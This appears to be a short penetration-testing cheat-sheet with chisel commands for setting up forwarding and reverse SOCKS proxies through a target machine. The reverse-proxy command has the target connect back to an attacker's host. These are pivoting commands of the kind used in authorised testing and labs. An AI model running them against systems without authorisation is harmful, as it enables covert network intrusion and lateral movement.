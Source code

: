 <br />

## Forwarding SOCKS Proxy

In the target machine,

```sh
chisel server -p <listen-port> --sock5
```

In your local machine,

```sh
chisel client <target-ip>:<listen-port> <proxy-port>:socks
```

<br />

## Reverse SOCKS Proxy

In your local machine,

```sh
chisel server -p <listen-port> --reverse &
```

In the target machine,

```sh
chisel client <attack-ip>:<listen-port> R:socks &
```

To stop connections,

```sh
jobs
kill %<NUMBER>
```